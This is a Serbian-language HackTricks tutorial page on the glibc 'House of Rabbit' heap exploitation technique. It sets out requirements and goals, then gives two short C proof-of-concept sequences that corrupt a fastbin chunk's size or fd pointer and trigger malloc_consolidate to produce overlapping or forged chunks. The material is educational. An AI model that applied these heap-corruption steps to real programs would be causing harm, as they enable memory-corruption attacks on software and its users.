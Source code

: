 # Kuća Zeca

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodičnu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### Zahtevi

1. **Sposobnost Modifikacije Fastbin fd Pokazivača ili Veličine**: To znači da možete promeniti pokazivač napred za komad u fastbin-u ili njegovu veličinu.
2. **Sposobnost Pokretanja `malloc_consolidate`**: Ovo se može postići ili alociranjem velikog komada ili spajanjem vršnog komada, što prisiljava hip da konsoliduje komade.

### Ciljevi

1. **Stvaranje Preklapajućih Komada**: Da jedan komad preklapa sa drugim, omogućavajući dalje manipulacije hipom.
2. **Forgeovanje Lažnih Komada**: Da prevari alokator da tretira lažni komad kao legitimni komad tokom operacija hipa.

## Koraci Napada

### POC 1: Modifikacija Veličine Fastbin Komada

**Cilj**: Stvoriti preklapajući komad manipulišući veličinom fastbin komada.

* **Korak 1: Alociranje Komada**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Korak 2: Oslobađanje Chunk-ova**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Korak 3: Izmena Veličine Čunka**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Korak 4: Izazovite `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Alociranje velikog bloka pokreće funkciju `malloc_consolidate`, spajajući male blokove u fastbinu. Manipulisana veličina `chunk1` uzrokuje preklapanje sa `chunk2`.

Nakon konsolidacije, `chunk1` se preklapa sa `chunk2`, omogućavajući dalju eksploataciju.

### POC 2: Modifikacija FD pokazivača

**Cilj**: Kreiranje lažnog bloka manipulacijom fd pokazivača fastbina.

* **Korak 1: Alociranje Blokova**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Objašnjenje**: Alociramo dva bloka, jedan manji i jedan veći, kako bismo postavili hip za lažni blok.

* **Korak 2: Kreiranje lažnog bloka**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Korak 3: Oslobađanje Chunk1**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Objašnjenje**: Oslobađamo `chunk1`, dodajući ga na listu brzih blokova.

* **Korak 4: Izmena FD-a Chunk1**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Objašnjenje**: Menjamo pokazivač napred (fd) `chunk1` da pokazuje na naš lažni blok unutar `chunk2`.

* **Korak 5: Pokretanje `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Alociranje velikog bloka ponovo pokreće `malloc_consolidate`, koji obrađuje lažni blok.

Lažni blok postaje deo liste brzih blokova, čineći ga legitimnim blokom za dalje iskorišćavanje.

### Rezime

Tehnika **House of Rabbit** uključuje ili modifikovanje veličine brzog bloka kako bi se stvorili preklapajući blokovi ili manipulisanje fd pokazivačem kako bi se stvorili lažni blokovi. Ovo omogućava napadačima da falsifikuju legitimne blokove u hipu, omogućavajući različite oblike iskorišćavanja. Razumevanje i vežbanje ovih koraka će unaprediti vaše veštine iskorišćavanja hipa.
